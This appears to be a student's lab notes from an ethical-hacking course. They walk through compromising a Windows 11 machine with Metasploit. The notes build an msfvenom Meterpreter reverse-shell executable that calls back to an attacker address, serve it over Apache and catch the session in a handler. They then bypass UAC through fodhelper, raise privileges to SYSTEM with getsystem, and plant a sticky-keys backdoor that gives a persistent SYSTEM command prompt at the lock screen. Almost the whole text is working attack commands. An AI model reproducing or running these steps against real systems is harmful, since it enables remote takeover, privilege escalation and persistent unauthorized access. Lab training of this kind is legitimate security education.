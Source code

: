   [parrot]
  sudo su
  cd -> take you to root dir
  msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe
  share the file [follow same steps as previously mentioned]
  service apache2 start

  msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.1.13
  set lport 444
  run

  [windows 11]
  http://10.10.1.13/share
  Run Windows.exe

  [parrot]
  You should see 1 session open
  sysinfo
  getuid
  bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.

  background
  search bypassuac
  use exploit/windows/local/bypassuac_fodhelper
  set session 1
  show options
  set LHOST 10.10.1.13
  set TARGET 0
  exploit

  BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.
  getsystem -t 1 [To elevate privileges]
  getuid
  background

Using Sticky keys exploit

	...fodhelper>use post/windows/manage/sticky_keys
	sessoins i*    -> list sessions
	set session 2  -> to set privileged session as the current session
	exploit         [IMP]
	
	[windows 11]
	Sign to Martin/apple   -> without admin privileges
	lock the screen
	press Shift key 5 times   -> this will open a command prompt on the lock screen with System privileges instead of sticky keys error window
	whoami
successfully got a persistent System level access to the target system by exploiting sticky keys.
